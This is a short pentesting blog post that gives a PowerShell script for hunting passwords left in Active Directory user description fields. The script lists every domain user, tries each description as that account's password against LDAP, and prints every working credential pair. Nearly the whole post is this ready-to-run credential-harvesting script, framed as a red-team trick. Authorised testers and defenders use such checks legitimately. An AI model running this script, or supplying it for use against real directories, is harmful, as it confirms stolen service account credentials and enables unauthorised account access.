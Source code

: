 ```yaml
---
title: Dumbest pentesting script to ever succeed
description: Getting service account credentials where you shouldn't
date: 2019-07-09
tags: [penetration testing, red team, vulnerability]
---
```


# Scanning for passwords in description fields in AD
In today's episode of "I can't believe this is real", the below Powershell script has a better than average likelyhood of handing out service account credentials.

``` powershell

$users = Get-ADuser -filter * -Properties description
$currentDomain = "LDAP://" + ([ADSI]"").distinguishedName

foreach ($user in $users) {
    if ($user.Description -ne $null) {
        $lookup = New-Object System.DirectoryServices.DirectoryEntry($currentDomain, $user.SamAccountName, $user.Description)
        if ($lookup.Name -ne $null) {
            write-host "We have a valid credential with $($user.SamAccountName) $($user.Description)"
        }
    }
}
```

